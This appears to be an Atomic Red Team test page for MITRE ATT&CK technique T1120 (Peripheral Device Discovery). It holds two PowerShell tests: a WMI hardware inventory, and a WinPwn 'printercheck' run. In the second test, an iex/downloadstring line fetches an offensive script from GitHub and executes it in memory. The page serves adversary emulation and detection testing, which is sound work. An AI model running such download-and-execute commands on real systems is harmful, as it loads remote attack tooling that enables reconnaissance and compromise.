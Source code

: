 ```yaml
---
tags: [T1120, atomic_test]
filename: "[[T1120|T1120 - Peripheral Device Discovery]]"
---
```


# T1120 - Peripheral Device Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)
<blockquote>Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system.(Citation: Peripheral Discovery Linux)(Citation: Peripheral Discovery macOS) Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)


<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory
Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5






#### Attack Commands: Run with `powershell`! 


```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck
Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```






<br/>
